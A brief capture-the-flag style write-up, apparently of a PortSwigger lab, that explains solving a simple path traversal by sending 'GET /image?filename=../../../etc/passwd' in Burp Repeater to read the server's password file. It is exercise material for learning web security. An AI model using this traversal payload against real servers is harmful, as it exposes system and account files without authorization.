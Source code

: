 We need to reed the contents of 

```bash
/etc/passwd
```

Knowing typical structure of a html server we can deduct that page is sitting in

```bash
/var/www
```

![burp filter images](../../../assets/port_swigger/file_path_traversal_simple_case/burp_filter_images.png)

Now as we open image in new tab we can see that images are located in /images folder. So we can assume that whole path to image is:

```bash
/war/www/image/2.jpg
```

We need to trawers up 3 times to get to root folder by using

```bash
../
```

To do that we must modify query in request so it looks like this:

```bash
GET /image?filename=../../../etc/passwd HTTP/2
```

Doing this in Repeater we solved the lab!

![solved](../../../assets/port_swigger/file_path_traversal_simple_case/solved.png)